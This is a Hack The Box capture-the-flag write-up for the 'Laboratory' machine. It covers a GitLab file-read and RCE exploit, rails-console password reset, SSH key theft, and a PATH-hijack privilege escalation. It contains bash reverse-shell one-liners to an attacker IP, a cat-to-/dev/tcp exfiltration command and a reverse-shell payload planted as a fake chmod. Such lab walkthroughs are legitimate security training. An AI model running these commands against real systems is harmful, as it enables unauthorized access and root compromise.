

# Writeup for [Laboratory](https://www.hackthebox.eu/home/machines/profile/298) from [Hack The Box](https://www.hackthebox.eu)

## Table of Contents
- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enuemration)
	- [laboratory.htb](#laboratory.htb-domain)
	- [git.laboratory.htb](#git.laboratory.htb-domain)
- [Exploitation](#exploitation)
- [Privilege Escalation](privilege-escalation)
	- [Docker to Low Privileged Shell](#docker-to-low-privileged-shell)
	- [Low Privileged Shell to Root Shell](#low-privileged-shell-to-root-shell)

## Machine Information

* OS : Linux
* Difficulty : Easy
* Points : 20
* IP Address : 10.10.10.216
* Released : 14 November 2020

## Information Gathering and Enumeration

As usual, let's start off with an nmap scan to get a good grasp of the attack surface on this box.

```bash
nmap -sCV -oN nmap/initial 10.10.10.216
```

We can see that there are 3 open ports on this box, which are SSH ( port 22 ), HTTP ( port 80 ), and HTTPS ( port 443 ).


nmap shows potential domain names present in the SSL certificate, `laboratory.htb` and `git.laboratory.htb`. Let's add those 2 entries to `/etc/hosts` file and navigate to those domains in a web browser.

### laboratory.htb Domain

Looking at this webpage, we don't really see anything interesting on the page. All of the links are dead links and the source html doesn't give us much info. 

But looking at the page closely, we can see that there are some client reviews on the page. We can see that `dexter`, the CEO, has commented on this page and we could probably assume that `dexter` is a user on this box.


Considering this is `https`, we should view the SSL certificate to see if there are any info that might be valuable.

We found the exact same domain names that nmap found.


After this, we should try and fuzz some directories. I'm going to use a tool called `gobuster`.
```bash
gobuster dir -u https://laboratory.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -o gobuster/raft-small-root -x html,php,txt -k
```
It's important that we specify the `-k` flag on this scan so gobuster skips certificate verification, because if not gobuster will error out because of the certificate.
Gobuster found a few directories and files, but none of them are of interest.


### git.laboratory.htb Domain

Navigating to this domain gives us a gitlab login page. We could try some default credentials like `admin:admin` and `admin:password` as the username and password respectfully. But those credentials doesn't seem to work. But there is a `register` option and we could try that.

There is username validation on the registration page, and we did found the potential user `dexter` on the previous domain. So I tried registering as `dexter` for the username in it seems that the username is already taken. So we can verify that `dexter` is a user on gitlab. 


When trying to register, the page spits out an error telling us that the email domain is not authorized for sign up. Looks like we can't just use a random domain.


We could try to change the domain to `@laboratory.htb` and that seems to work. I also changed the username to `test` and set the password to `password`.


## Exploitation

I started searching for gitlab exploits using `searchsploit`. I found this arbitrary file read vulnerability. The reason I went for this first instead of the RCE one is because the file read vulnerability has a higher version number.


So let's clone this text file to our current directory. ( Apparently it's a python script ) 
```bash
searchsploit -m ruby/webapps/48431.txt && mv 48431.txt file_read.py
```

At first, I tried to skim through the source code and tried running the script blindly. Well that didn't go to well and I decided that I'll just run the exploit manually. So I read through the source code and got the rough gist of it, with the help of a few articles from the internet.

So basically this vulnerability happens when moving an issue from one project to another. So what we could do is to create 2 projects ( repos ) and create a dummy issue on one of them with a specific payload in the `description`. We are then going to move that issue to the second project and it will link a file that we specified to read in the payload.

The file read vulnerability is caused by **unsanitized** input when moving files that causes a `directory traversal` and `arbitrary file read` vulnerability. 
The RCE vulnerability can be achieved by creating a `serialized` session hash that will be sent to the server and be executed upon the deserialization of the object with some `ruby on rails` magic.
You can read more about it [here](https://hackerone.com/reports/827052) and [here](https://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/)

Now let's craft this exploit. First of all we're going to need 2 dummy projects. 


After that, let's create an issue on `project1`. The title can be anything you want, but I'll be using etc/passwd since we are going to try and read `/etc/passwd` to see if this exploit works. The payload will be located in the `description` part of the issue.

```markdown

```


Now let's submit this issue and try to move it to `project2`.


We then see a link to a file called `passwd`. Note that we are now in `project2`.



And we get `/etc/passwd` from that attached file that we can download to our box.

```
[manjaro@core gitlab]$ cat passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
```
Now since we proved that the exploit worked, let's try and read the secrets file of rails which is located in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` to get the **secret_key**.

Let's run that exploit again but the use the rails config file as the file to read.
```markdown

```

Do the exact same thing that we did when reading `/etc/passwd` and we should be able to download that secrets file.


Now that we have the secret key, we could try RCE next. But to do this manually, we would need to install `ruby on rails` and that might conflict with `metasploit` that is also written in `ruby`, so I spun up `metasploit` and found this exact exploit.

```
use exploit/multi/http/gitlab_file_read_rce
```

Let's set the correct options for this exploit.
Since we know the `secret_key` already, we can just set the `secret_key` and skip the whole file read vulnerability.If you want to run this exploit with the file read vulnerability, just empty out the secret key.

We should get a callback from the machine and spawn us a shell on metasploit.


Since we can't upgrade to a full tty session from a metasploit shell, I'm going to run another reverse shell to callback to my machine so I can upgrade this shell to a full tty session.

Let's setup a listener on our local box. ( You might need to use `nc` instead of `ncat`)
```
ncat -lnvp 9001
```

Run this bash reverse shell one-liner on the reverse shell from metasploit.
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.5/9001 0>&1'
``` 
> Replace `10.10.16.5` and `9001` to your own IP address and desired port number

We should get a callback from the box. Let's upgrade our shell to a full tty session.


## Privilege Escalation

### Docker to Low Privileged Shell
After getting a shell on the box, I was really excited and thought that I got user. Well it turns out that I was wrong. I tried listing the `/home` directory and nothing was present. I also ran `sudo -l` and tried to cat `/etc/fstab` but it seems that `sudo` was not installed and `/etc/fstab` was not configured. I found this **very** odd.

Then I tried listing the `/` directory and found a `.dockerenv` file. That proves that we are in fact inside a **docker container**


We know that the gitlab instance running on `git.laboratory.htb` is running from this docker container, so we can probably access the `gitlab-rails console` from this container. 

```bash
gitlab-rails console
```
Give it a moment to load, and we should be prompted in the console. Now, we know that there are accounts on gitlab, so there must be a way to query the database from the rails console.
Let's create a user variable that finds the users from the database with the id number.
```ruby
user = User.find(1)
```

running `user = User.find(2)` gives an error so we know that only `dexter` is present in the database.
Let's also change the password.
```ruby
user.password = 'password'
user.save
```


After changing `dexter`'s password, let's try to login to his gitlab account.

We see that there are 2 projects on his account.


Let's check out this `SecureDocker` project. Inside that we see a directory called `dexter` and inside that we see a `.ssh` directory. Inside this directory we found an **id_rsa** file for dexter.


Copy this id_rsa file to our local box, and authenticate with it via ssh. I'm gonna copy it to a file called `dexter_rsa`. Make sure we change the permission for the private key before trying to authenticate with it.

```bash
chmod 600 dexter_rsa
```
```bash
ssh -i dexter_rsa dexter@10.10.10.216
```


### Low Privileged Shell to Root Shell
After getting this shell, we could read `user.txt`. But our goal is root, and let's start with some low hanging fruit.

I like to check for `sudo` privileges with `sudo -l` and check for SUID binaries with the `find` command for a quick win.
```bash
find / -perm -4000 2>/dev/null
```

Since we don't know `dexter`'s password, I guess `sudo` is out of the book for now.

But we do see a peculiar file from our `find` command. We see a `docker-security` binary. I tried googling this particular binary and found no results. So this maybe a custom binary.


We can verify that this binary is in fact a SUID by running `ls -l` and looking at the permissions. Running it on the terminal doesn't do much either, and since this box doesn't have the `strings` binary, which is my go to whenever I see a custom binary, we should download this binary to our box to inspect it.

First we're going to setup a listener to catch the call from the machine and output it to a file. ( You might need to use `nc` instead of `ncat`)
```bash
ncat -lnvp 9002 > docker-security
```

On the victim box, let's cat out this binary redirect the output to our machine.
```bash
cat /usr/local/bin/docker-security > /dev/tcp/10.10.16.5/9002
```

Let's also make sure that the `md5sum` of both the binary on the box and our local machine are the same.


Running `strings` on the binary, we get a bunch of output. But we can see one entry in particular that is running `chmod`.
The problem is that `chmod` is not being run with it's full path which is `/usr/bin/chmod`. It's running `chmod` with a relative path, so we can create our own dummy `chmod` file and manipulate the `PATH` environment variable to run our dummy `chmod` script instead of `/usr/bin/chmod`


So on the victim box, let's navigate to a more isolated directory ( I like `/dev/shm`) and create a file called `chmod` with a reverse shell payload and mark it as executable.

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.16.5/9001 0>&1'" > chmod && /usr/bin/chmod +x chmod
```

Then, let's manipulate the `PATH` environment variable to put our current direcotry into the `PATH` variable. Make sure that we put our current directory **first** in the `PATH` variable. That's because the program will search for `chmod` from the `PATH` variable and use whichever one it found first.


```bash
export PATH=/dev/shm:$PATH
```


We can verify by running `which chmod` and we should see `/dev/shm/chmod`.

Again, we setup a listener with `ncat -lnvp 9001` on our machine and then run the `/usr/local/bin/docker-security` binary.


And we get a connection back as the root user.

